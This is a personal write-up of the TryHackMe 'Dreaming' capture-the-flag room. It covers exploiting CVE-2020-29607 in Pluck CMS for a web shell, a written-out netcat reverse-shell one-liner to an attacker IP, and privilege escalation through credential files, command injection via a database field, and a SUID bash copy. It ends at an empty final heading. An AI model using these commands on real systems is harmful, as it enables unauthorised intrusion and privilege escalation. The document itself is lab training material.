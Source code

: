 ![image](https://github.com/QuanPham247/THM-Dreaming/assets/97132705/7fb15d84-688a-4f2d-9874-1b785fc1456c)# THM-Dreaming
![image](https://github.com/QuanPham247/THM-Dreaming/assets/97132705/5997701d-4379-41d2-b2bc-e2f97f37c4f4)



Personal attempt on THM CTF Challenge. [DREAMING](https://tryhackme.com/room/dreaming))

RECON 

![image](https://github.com/QuanPham247/THM-Dreaming/assets/97132705/084772cd-94f9-46ba-b317-6d805eaa61e6)

Access the target's website, we can only see Apache's default site. Let's do some directory enumeration with nmap and http-enum script. 

![image](https://github.com/QuanPham247/THM-Dreaming/assets/97132705/016a5d24-38de-470c-8170-120b0a79eab5)

Accessing the directoy, we know that the web is using Pluck CMS 4.7.13

![image](https://github.com/QuanPham247/THM-Dreaming/assets/97132705/48925c1d-2d60-4869-903a-3c3c75efb00a)

EXPLOIT

Upon a quick Google search, we can tell that this version of Pluck is vulnerable to an Authenticated File Upload, as documented in CVE-2020-29607. However, first we need to authenticate. 
With some luck, I was able to guess the password. It's password (not very secured 🔒)

![image](https://github.com/QuanPham247/THM-Dreaming/assets/97132705/944c85b0-9e3d-4599-aeaa-10cd9273ee47)

The mentioned vulnerability allows an attacker to upload a web shell to the directory http://IP/admin.php?action=files to gain a webshell. This abuses the "manage files" functionality of the app.
I use this PoC from Github: https://github.com/0xAbbarhSF/CVE-2020-29607
Usage: python3 exploit.py TARGET IP TARGET PORT password pluck-cms-path

![image](https://github.com/QuanPham247/THM-Dreaming/assets/97132705/5b4795d2-805a-4e65-b5ba-a046e22eeafc)

Now, for more control and convenience, we want a reverse shell. I personally like to use the methods from
https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

On your attack machine, start a Netcat listener on a random unused port.
nc -lvnp 1234

Then run this on the webshell
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
Remember to replace the IP with the IP of your attack machine. 

Wait a few a moment, then we receive a shell of the target machine as www-data. www-data is the owner of files under the web server directory.  

![image](https://github.com/QuanPham247/THM-Dreaming/assets/97132705/325565e4-6740-4f61-be04-977d00d318bb)

To gain a more stable shell, we can use the command:
python3 -c 'import pty;pty.spawn("/bin/bash")

![image](https://github.com/QuanPham247/THM-Dreaming/assets/97132705/d7cd8071-55ff-47ed-b56e-42da593972ef)

PRIVILEGE ESCALATION


![image](https://github.com/QuanPham247/THM-Dreaming/assets/97132705/5e59087c-b25e-49f9-97dd-7ad1978fe37c)

![image](https://github.com/QuanPham247/THM-Dreaming/assets/97132705/07a3dbb9-dee1-4bae-aaf0-164eac7ab22e)

![image](https://github.com/QuanPham247/THM-Dreaming/assets/97132705/eac83ba7-0d52-4a95-aa16-d7d46a750ad8)

As you can see, www-data don't have read access to the flags so, in order to get the flags, we need to find ways to escalate to higher privileges. I am using [LinPeas](https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh)

To transfer it to the target machine, we can use the manage files nav bar (under Pages). Then script will be available at /var/www/html/files/linpeas.sh

![image](https://github.com/QuanPham247/THM-Dreaming/assets/97132705/05e6436c-6894-4ba0-b302-fee782a6f0be)


![image](https://github.com/QuanPham247/THM-Dreaming/assets/97132705/6b71812c-f6a9-4f57-a5fc-2278f753f47d)

Thanks to LinPEAS, we find some interesting files: 

![image](https://github.com/QuanPham247/THM-Dreaming/assets/97132705/6506e51b-dce4-4049-bf7b-ff6baf43a8f5)

LUCIEN
Opening the test.py, we found Lucien password

![image](https://github.com/QuanPham247/THM-Dreaming/assets/97132705/b131a147-6ccb-4ea0-9b44-329fd18df755)

We can now SSH to the target using lucien's credential. The flag is found under his home directory.

![image](https://github.com/QuanPham247/THM-Dreaming/assets/97132705/49d3c69a-2c2d-4440-af22-a8cd8775df65)

DEATH
Using **sudo -l**, we see that Lucien can run a Python script as Death. It is know our job how to exploit this script to gain Death's shell

![image](https://github.com/QuanPham247/THM-Dreaming/assets/97132705/6bdd772a-4e5b-491d-b8de-cb39119fa926)

The script in /opt seems to be identical with the script that we're going to exploit. However, we only have read acess, so let's skim its content to see what it does. 

![image](https://github.com/QuanPham247/THM-Dreaming/assets/97132705/7cbf69a6-ebaa-48fa-89a3-555fccee0317)

First, a connection to the local mySQL database named 'library' was made. We can also see credentials of death, but the password was redacted.

![image](https://github.com/QuanPham247/THM-Dreaming/assets/97132705/339f952f-77c0-4721-97ad-69240cbbe5c2)

Then the script fetches information from the 'dream' and the 'dreamer' column of the 'dreams' table.

![image](https://github.com/QuanPham247/THM-Dreaming/assets/97132705/5667a4d8-9866-4a42-88c2-4d4c7aeeb237)

Finally, it echos a string concatenating the values. We can abuse this to inject shell commands into the database and get the executed under death. 


Opening .bash_history in lucien's home directory. We found lucien's mysql password. 
mysql -u lucien -p????????????????

Using lucien's credential we were able to login. 
Here's the content of the 'dreams' table:
![image](https://github.com/QuanPham247/THM-Dreaming/assets/97132705/577970a3-0247-4a98-8d48-9485d01fa63c)

![image](https://github.com/QuanPham247/THM-Dreaming/assets/97132705/c4fbcb5d-af7b-423c-96f7-cff091c397af)

Using the ';' character, I was able to chain the echo command with the cat command to view death's flag. 

![image](https://github.com/QuanPham247/THM-Dreaming/assets/97132705/44be4445-b81b-4344-a53e-7a03fbe926ba)

![image](https://github.com/QuanPham247/THM-Dreaming/assets/97132705/2e5c2e0f-2a5a-4ba1-9f81-1630a8eb4c0d)

Still, we still haven't gained death's shell. To do that, we copy /bin/bash to /tmp/bash and add a SUID bit. Therefore, we will have access to death's shell. 

Return to MySQL, and injects the command. 

![image](https://github.com/QuanPham247/THM-Dreaming/assets/97132705/0f511983-4f1c-4f31-96c4-25fffc2f9690)

Run the script again, and we have death's shell.

![image](https://github.com/QuanPham247/THM-Dreaming/assets/97132705/7f0500c8-6526-494e-aa38-734b3e016262)

Remember the redacted password in getDreams.py in death's home dir? We can view it now. 

![image](https://github.com/QuanPham247/THM-Dreaming/assets/97132705/ee85ccc9-c82b-4774-86a5-243bde038271)

Luckily, we can reuse the DB password to ssh to the target for more stable shell. 

![image](https://github.com/QuanPham247/THM-Dreaming/assets/97132705/bf278b4e-12f3-4d9b-884b-f9b40f5f76c7)




MORPHEUS














